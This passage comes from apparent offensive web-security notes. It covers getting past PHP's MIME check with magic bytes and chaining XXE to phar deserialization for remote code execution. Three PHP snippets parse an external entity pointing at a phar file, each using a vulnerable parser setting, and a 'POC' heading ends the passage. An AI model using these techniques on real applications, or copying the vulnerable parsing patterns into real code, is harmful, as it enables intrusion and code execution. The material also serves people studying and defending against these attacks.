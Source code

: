 ![image](./images/image19.png)

`Add appropriate magic bytes to fool MIME detection. => Bypass the mime_content_type() function`

## XXE to Phar deserialization

Imagine that you have XXE error but you can only read local files(LFI). However, with file upload and phar deserialization you can get ... RCE. These are some cases to exploit

```php
$xml = '<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "phar://test.phar">]><root>&xxe;</root>';

$data = simplexml_load_string($xml, "SimpleXMLElement", LIBXML_NOENT);
```

```php
$xml = '<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "phar://test.phar">]><root>&xxe;</root>';

$data = new SimpleXMLElement($xml, 2, 0);
```

```php
$xml = '<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "phar://test.phar">]><root>&xxe;</root>';

$dom = new DOMDocument();
$dom->loadXML($xml,LIBXML_NOENT);
```

### POC
